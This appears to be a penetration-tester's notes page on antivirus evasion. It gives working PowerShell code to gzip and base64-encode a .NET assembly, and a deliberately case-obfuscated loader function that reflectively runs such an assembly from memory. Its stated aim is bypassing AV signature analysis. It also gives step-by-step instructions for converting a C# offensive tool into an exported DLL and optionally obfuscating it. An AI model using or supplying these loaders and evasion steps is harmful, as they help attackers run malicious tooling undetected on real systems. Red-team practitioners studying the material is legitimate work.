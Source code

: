 # .NET Reflective Assembly

- [https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/](https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/)
- [https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack)
- [https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell)
- [https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1](https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1)
- [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1)
- [https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html](https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html)

A way to bypass AV signature analysis: you can gzip-compress and base64-encode a .NET assembly to load it reflectively via PowerShell right from memory (when compiling the binary, make `Program` class and its `Main` method **public**):

{% code title="CompressEncodeAssembly.ps1" %}
```powershell
$bytes = [System.IO.File]::ReadAllBytes("\path\to\csharp\binary.exe")
[System.IO.MemoryStream] $output = New-Object System.IO.MemoryStream
$gzipStream = New-Object System.IO.Compression.GzipStream($output, [System.IO.Compression.CompressionMode]::Compress)
$gzipStream.Write($bytes, 0, $bytes.Length)
$gzipStream.Close()
$output.Close()
[byte[]] $byteOutArray = $output.ToArray()
$encodedZipped = [System.Convert]::ToBase64String($byteOutArray)
$encodedZipped | Out-File -Encoding ASCII .\b64.txt
```
{% endcode %}

This [blog post](https://www.praetorian.com/blog/running-a-net-assembly-in-memory-with-meterpreter) covers the topic in depth.

An example how the binary can be actually decoded, decompressed and run from memory:

```powershell
function Invoke-S0m3B1n4ry
{
	[CmdletBinding()]
	Param([String]$cOmmANd = " ")

	$a = NeW-obJeCt sYsTeM.Io.MEMoRysTREaM(,[coNveRT]::frombaSE64sTrINg("..."))
	$DEcoMpRESSEd = nEw-obJEct SYsteM.io.CompREsSION.gzIPsTreaM($a, [sYstEM.iO.COMPrEssION.CompRESsIonMODE]::decOmPRESs)
	$OUtpuT = New-oBjeCt SySTeM.IO.MEmorYstREam
	$dEcoMPReSSEd.copYto( $outPUt )
	[BYte[]]$ByTEOuTarrAy = $OUtPUT.toarrAY()
	$RAs = [sySTeM.REfLecTIOn.ASSEmBlY]::load($bYTeOUTArraY)
	$olDconsOLeOuT = [CONSoLe]::out
	$StRInGwritEr = nEW-ObJEct System.IO.STRiNgwRiTEr
	[cONSOLE]::sEtOut($STringWRITer)

	[S0m3B1n4ry.Program]::maiN($CoMmAND.Split())
	# or [S0m3B1n4ry.Program]::maiN([string[]]$args)

	[cOnsolE]::sEtout($olDCONsOleout)
	$resUlTs = $sTRInGWRiter.TOSTring()
	$rESuLTs
}
```




## C\# to Unmanaged DLL
* [https://blog.xpnsec.com/rundll32-your-dotnet/](https://blog.xpnsec.com/rundll32-your-dotnet/)

Creating assembly with DLL exports from C# code:

1. Select your favorite C# offensive tool.
2. Install [DllExport](https://www.nuget.org/packages/DllExport/) package via "Manage NuGet Packages for Solution" in VS.
3. Configure DllExport like on the screenshot below and click "Apply".
4. Agree to reload the solution.
5. Edit the Main function code to work with no arguments passed so that the signature looks like `static void Main()`.
6. Add `[DllExport]` attribute before the Main function.
7. Check "Allow unsafe code" and "Optimize code" boxes in Build tab of the solution.
8. Build the solution as Release x64 DLL assembly.
9. (Optional) Obfuscate the assembly with something like [Confuser](https://github.com/XenocodeRCE/neo-ConfuserEx).

![DllExport Configuration](/.gitbook/assets/010.png)

The resulting DLL will be placed in `.\bin\x64\Release\x64\` directory.

{% hint style="warning" %}
Author's note: *I’m not sure why it requires so much finessing, but I’m open to any optimizations or explanations if anyone knows. Specifically, only the DLL in the `\x64\` directory will work, for some reason the one that’s under `\Release\` does not contain the entrypoint that should be generated by `[DllExport]`, even though it’s built at the same time as the one in `\x64\`.*
{% endhint %}
